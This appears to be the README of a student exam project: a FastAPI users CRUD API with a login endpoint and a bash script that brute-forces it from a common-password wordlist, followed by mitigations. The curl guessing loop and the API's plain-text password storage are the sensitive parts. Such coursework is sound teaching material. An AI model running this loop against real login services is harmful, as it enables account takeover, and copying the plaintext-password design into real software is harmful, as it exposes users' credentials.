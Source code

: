 <!-- START README -->

# Users CRUD + Controlled Brute-Force (FastAPI)

> **Educational use only.** All tests must be run **only** against this **local** API and with **practice accounts** created for the exercise.

## Requirements
- Python 3.10+
- (Windows) Git Bash or WSL to run `brute.sh`

## Setup

```bash
# In the project folder
py -m venv .venv
.\.venv\Scripts\Activate.ps1
py -m pip install --upgrade pip
py -m pip install -r requirements.txt
```

## Run the API

```bash
py -m uvicorn main:app --reload
```

- Swagger UI: http://127.0.0.1:8000/docs  
- ReDoc:       http://127.0.0.1:8000/redoc

> **Note:** The “database” is **in-memory**. If the server reloads (e.g., due to `--reload`), users are cleared and must be created again.

---

## Endpoints

- `POST /users` — create user (receives **plain-text password**)
- `GET /users` — list users (passwords not returned)
- `GET /users/{id}` — get user by id
- `PUT /users/{id}` — update (everything **except** password)
- `DELETE /users/{id}` — delete
- `POST /login` — authenticate (returns only `login successful` or `Invalid credentials`)

### Quick CRUD test (in `/docs`)

**1) POST /users**
```json
{
  "username": "demo",
  "password": "pass123",
  "email": "demo@mail.com",
  "is_active": true
}
```

**2) GET /users**  
**3) GET /users/1**

**4) PUT /users/1**
```json
{
  "email": "new@mail.com",
  "is_active": false
}
```

**5) Username conflict demo**  
Create user `admin`, then:
```json
{ "username": "admin" }
```
on `PUT /users/1` → should respond `username ya existe`.

**6) POST /login**
```json
{
  "username": "demo",
  "password": "pass123"
}
```

---

## Controlled brute-force (bash)

File: **`brute.sh`** (included). Run in **Git Bash** while the API is running:

```bash
./brute.sh
```

By default it targets `USER="demo"` using a short internal wordlist.  
You can switch the user or read from a file:

### Using a `wordlist.txt`

**1) Create a simple wordlist**
```bash
cat > wordlist.txt <<'EOF'
123456
123456789
password
qwerty
abc123
admin
admin123
contraseña
contrasena
hola123
secret
pass123
EOF
```

**2) (Optional) Adjust `brute.sh` to read the file**  
Replace the loop with:
```bash
attempts=0
start=$(date +%s)

while IFS= read -r pwd; do
  attempts=$((attempts+1))
  resp=$(curl -s -X POST "$API" \
    -H "accept: application/json" \
    -H "Content-Type: application/json" \
    -d "{\"username\":\"$USER\",\"password\":\"$pwd\"}")
  echo "[$attempts] '$pwd' -> $resp"
  if [[ "$resp" == *"login successful"* ]]; then
    end=$(date +%s)
    echo "FOUND: '$pwd' in $attempts attempts, $((end-start))s"
    exit 0
  fi
  sleep 0.2
done < wordlist.txt

end=$(date +%s)
echo "NOT found after $attempts attempts in $((end-start))s"
exit 1
```

> Keep a small delay (e.g., `sleep 0.2`) so the test is **controlled** and you don’t overwhelm the local API.

### What to report (example)
- Target user: `admin`  
- Wordlist size: 12  
- Delay between attempts: 0.2 s  
- **Result**: found `secret` in 6 attempts, ~2 s  
- Conclusion: weak/common passwords are cracked very quickly.

---

## Mitigations (mention in your write-up)
- **Rate limiting** per IP/username
- **Backoff** after failed attempts (growing delays)
- **Strong password policy** (length/entropy)
- **Password hashing** (e.g., `bcrypt`) instead of plain text
- **CAPTCHA / MFA** to slow down automation

---

## Project structure
```
first-term-exam/
├─ main.py           # FastAPI (CRUD + login), in-memory "DB"
├─ brute.sh          # Bash brute-force script (controlled, uses curl)
├─ requirements.txt  # Dependencies
└─ README.md
```

### (Optional) .gitignore
```gitignore
.venv/
__pycache__/
*.pyc
*.log
.DS_Store
Thumbs.db
```

<!-- END README -->
